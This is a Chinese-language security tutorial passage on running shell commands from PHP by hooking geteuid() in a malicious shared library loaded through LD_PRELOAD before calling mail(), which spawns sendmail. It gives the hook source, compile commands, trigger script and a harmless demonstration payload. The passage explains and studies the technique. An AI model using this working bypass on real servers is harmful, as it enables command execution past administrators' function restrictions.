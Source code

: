 ```
&lt;?php
mail('','','','');
?&gt;
```

我们strace一下，可以看到运行这个脚本的时候，程序会启子进程来调用sendmail

```
execve("/usr/bin/php", ["php", "test.php"], [/* 20 vars */]) = 0
[pid 23864] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], [/* 20 vars */]) = 0
[pid 23865] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], [/* 20 vars */]) = 0
```

那么我们只要看一下sendmail使用了哪些函数

[![](https://p5.ssl.qhimg.com/t01c76b4a9b6bc50197.png)](https://p5.ssl.qhimg.com/t01c76b4a9b6bc50197.png)

有很多函数可以使用，这里可以选择geteuid()，然后我们编写自己的evil shared libraries：hack.c

```
#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
void payload() `{`
        system("ls / &gt; /tmp/sky");
`}`
int geteuid() 
`{`
    if (getenv("LD_PRELOAD") == NULL) `{` return 0; `}`
    unsetenv("LD_PRELOAD");
    payload();
`}`
```

然后编译一下

```
gcc -c -fPIC hack.c -o hack
gcc --share hack -o hack.so
```

然后我们运行脚本

```
&lt;?php
putenv("LD_PRELOAD=./hack.so");
mail('','','','');
?&gt;
```

[![](https://p0.ssl.qhimg.com/t01afcea293e08668c6.png)](https://p0.ssl.qhimg.com/t01afcea293e08668c6.png)

不难发现它执行了命令，然后可以发现/tmp目录下多了一个文件sky

```
root@sky:~# ls /tmp | grep sky
sky
```
